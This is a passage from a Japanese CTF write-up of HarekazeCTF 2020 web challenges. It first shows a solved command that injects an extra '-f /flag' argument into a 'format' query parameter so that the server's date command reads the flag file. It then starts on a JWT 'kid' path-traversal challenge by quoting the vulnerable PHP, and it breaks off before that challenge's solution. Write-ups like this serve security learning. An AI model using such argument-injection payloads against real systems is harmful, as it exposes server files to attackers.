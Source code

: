 ### 攻撃

```shell
$ http "http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/what-time-is-it-now/?format=' -f '/flag" | grep "HarekazeCTF"
          <h1 class="jumbotron-heading"><span class="text-muted">It's</span> date: invalid date 'HarekazeCTF{1t\'s_7pm_1n_t0ky0}'
```

### フラグ

```
HarekazeCTF{1t's_7pm_1n_t0ky0}
```

## [web] JWT is secure

210 pts, 19 solves

> 独自に作ったセッション機能は脆弱性を作り込みがちだということを学んだので、今回はJWT (JSON Web Token)を採用しました。<br />
> `http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/jwt-is-secure/`

### 問題概要

- JWTで認証を行っているログイン可能なサービスが与えられる
- adminページにアクセスするとフラグが見られるが、adminにしか閲覧権限がない

### 解法

ソースコードを読むと次のことがわかります。

- algは'hs256', 'hs384', 'hs512' の3種類のみ
    - none攻撃のような典型手法はできそうにない
- adminかの判定はJWTのデータ部の`role`を見て判断している：
    - `$session->get('role') === 'admin'`
- JWTのヘッダの`kid`の値からハッシュ関数のキーに使うファイルを特定して、検証を行っている：
    ```php
    private function getSecretKey($kid) {
      $dir = $this->base_dir . '/' . $kid[0] . '/' . $kid[1];
      $path = $dir . '/' . $kid;

      // no path traversal, no stream wrapper
      if (preg_match('/\.\.|\/\/|:/', $kid)) {
        throw new Exception('Hacking attempt detected');
      }

      if (!file_exists($path) || !is_file($path)) {
        throw new Exception('Secret key not found');
      }

      return file_get_contents($path);
    }
    ```
    - `$this->base_dir`の値は`./keys`
    - なにやらpath traversalを防ごうとしている
- キーが置かれているファイルは、セッション開始時にパスが乱数で決定される：
    ```php
    private function setSecretKey($kid, $key) {
      $dir = $this->base_dir . '/' . $kid[0] . '/' . $kid[1];
      $path = $dir . '/' . $kid;


[^1]: この問題の本質ではないですが、fastify-formbodyは[qs](https://github.com/ljharb/qs)ではなくnodeのbuiltinである[querystring](https://nodejs.org/api/querystring.html)を使っているらしいです（ref. https://github.com/fastify/fastify-formbody/tree/v5.0.0#upgrading-from-4x ）。知らなかった。配列指定がいつもの`hoge[]=xxx`ではないので注意したい。